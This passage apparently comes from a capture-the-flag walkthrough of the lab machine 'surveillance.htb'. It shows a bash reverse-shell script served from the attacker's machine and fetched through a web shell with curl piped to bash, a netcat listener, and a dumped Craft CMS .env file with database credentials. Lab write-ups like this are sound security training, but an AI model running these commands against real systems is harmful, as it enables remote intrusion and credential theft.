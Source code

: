 ```sh
# get a reverse shell and a webserver to access it
echo -ne '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.71/4444 0>&1' > bash.sh
python3 -m http.server 8888

# open a listening port
nc -lvnp 4444

# grab the shell on the webserver on our machine from the webserver
curl 'http://surveillance.htb/shell.php?cmd=curl+10.10.14.71:8888/bash.sh|bash'

# shell as www-data
www-data@surveillance:~/html/craft/web$
```
# Foothold

Now that we have access to the machine as `www-data`, we have to find a way to elevate our privileges. 

It turns out there is a `.env` file in `/var/www/html/craft` directory.

Inside it there is some valuable data:

```sh
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```
